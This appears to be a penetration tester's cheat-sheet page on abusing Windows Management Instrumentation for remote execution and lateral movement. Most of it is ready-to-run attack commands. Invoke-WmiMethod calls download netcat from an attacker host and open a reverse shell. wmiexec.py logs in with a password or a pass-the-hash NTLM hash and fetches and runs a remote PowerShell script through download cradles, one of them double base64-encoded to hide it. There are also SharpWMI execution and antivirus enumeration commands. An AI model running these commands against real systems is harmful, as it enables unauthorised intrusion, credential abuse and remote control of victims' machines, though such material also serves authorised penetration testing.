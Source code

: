 ```yaml
---
description: Windows Management Instrumentation
---
```


# WMI

* [https://www.ethicalhacker.net/features/root/wmi-101-for-pentesters/](https://www.ethicalhacker.net/features/root/wmi-101-for-pentesters/)
* [https://hideandsec.sh/books/cheatsheets-82c/page/wmi](https://hideandsec.sh/books/cheatsheets-82c/page/wmi)




## PowerShell

Basic command to check if we have privileges to execute WMI:

```
PS > Get-WmiObject -Credential $cred -ComputerName PC01 -Namespace "root" -class "__Namespace" | Select Name
```

Execute commands:

```
PS > Invoke-WmiMethod -Credential $cred -ComputerName PC01 win32_process -Name Create -ArgumentList ("powershell (New-Object Net.WebClient).DownloadFile('http://10.10.13.37/nc.exe', 'C:\Users\bob\music\nc.exe')")
PS > Invoke-WmiMethod -Credential $cred -ComputerName PC01 win32_process -Name Create -ArgumentList ("C:\Users\bob\music\nc.exe 10.10.13.37 1337 -e powershell")
```



### WMI Enumeration

- [https://0xinfection.github.io/posts/wmi-basics-part-1/](https://0xinfection.github.io/posts/wmi-basics-part-1/)
- [https://0xinfection.github.io/posts/wmi-classes-methods-part-2/](https://0xinfection.github.io/posts/wmi-classes-methods-part-2/)
- [https://0xinfection.github.io/posts/wmi-registry-part-3/](https://0xinfection.github.io/posts/wmi-registry-part-3/)
- [https://0xinfection.github.io/posts/wmi-recon-enum/](https://0xinfection.github.io/posts/wmi-recon-enum/)

{% code title="Invoke-LocalWMIEnum.ps1" %}
```powershell
Get-WmiObject -Class Win32_ComputerSystem | select BootupState,UserName,TotalPhysicalMemory,SystemType,SystemFamily,Domain,DNSHostName,OEMStringArray | ft -AutoSize
Get-WmiObject -Class Win32_OperatingSystem | fl *
Get-WmiObject -Namespace root\SecurityCenter2 -Class AntiVirusProduct | select PSComputerName,DisplayName,PathToSignedProductExe,PathToSignedReportingExe,ProductState,Timestamp | ft -AutoSize
Get-WmiObject Win32_Service | select Name,State,StartName,PathName | ? {$_.State -like "Running"} | findstr /vi "C:\Windows" | ft -AutoSize
Get-WmiObject -Class Win32_LoggedOnUser | select Antecedent,Dependent,PSComputerName | ft -AutoSize
Get-WmiObject -Class Win32_LogonSession | select AuthenticationPackage,LogonID,StartTime,Scope | ft -AutoSize
Get-WmiObject -Class Win32_QuickFixEngineering | select PSComputerName,Description,HotFixID,InstalledBy,InstalledOn | ft -AutoSize
Get-WmiObject -Class Win32_Share | select Type,Name,AllowMaximum,Description,Scope | ft -AutoSize
Get-WmiObject -Class Win32_IP4RouteTable | select PSComputerName,Caption,Mask,Metric1,Protocol | ft -AutoSize
Get-WmiObject -Class Win32_UserAccount | ft -AutoSize
Get-WmiObject -Class Win32_Group | ft -AutoSize
```
{% endcode %}




## wmiexec.py

- [https://github.com/XiaoliChan/wmiexec-RegOut](https://github.com/XiaoliChan/wmiexec-RegOut)
- [https://github.com/XiaoliChan/wmiexec-Pro](https://github.com/XiaoliChan/wmiexec-Pro)
- [https://github.com/WKL-Sec/WMIExec](https://github.com/WKL-Sec/WMIExec)

```
$ wmiexec.py -codec cp866 snovvcrash:'Passw0rd!'@192.168.1.11
$ wmiexec.py -hashes :fc525c9683e8fe067095ba2ddc971889 snovvcrash@192.168.1.11
```

Get a PowerShell reverse-shell:

```
$ sudo python3 -m http.server 80
$ sudo rlwrap nc -lvnp 443
$ wmiexec.py -silentcommand -nooutput snovvcrash:'Passw0rd!'@192.168.1.11 'powershell iEx (iWr "http://10.10.13.37/rev.ps1")'
```

When loading the cradle from a semi-interactive shell, you can combine with `Invoke-WmiMethod` to spawn a new PowerShell process:

```bash
wmiexec.py -silentcommand -nooutput snovvcrash:'Passw0rd!'@192.168.1.11 "powershell -enc $(echo -n 'Invoke-WmiMethod Win32_Process -Name Create -ArgumentList ("powershell -enc '`echo -n 'IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/rev.ps1")' | iconv -t UTF-16LE | base64 -w0`'")' | iconv -t UTF-16LE | base64 -w0)"
```




## SharpWMI

- [https://github.com/GhostPack/SharpWMI](https://github.com/GhostPack/SharpWMI)

```
PS > .\SharpWMI.exe action=exec [username=MEGACORP\snovvcrash] [passw0rd=Passw0rd!] computername=PC01 command="powershell -enc <BASE64_CMD>"
```

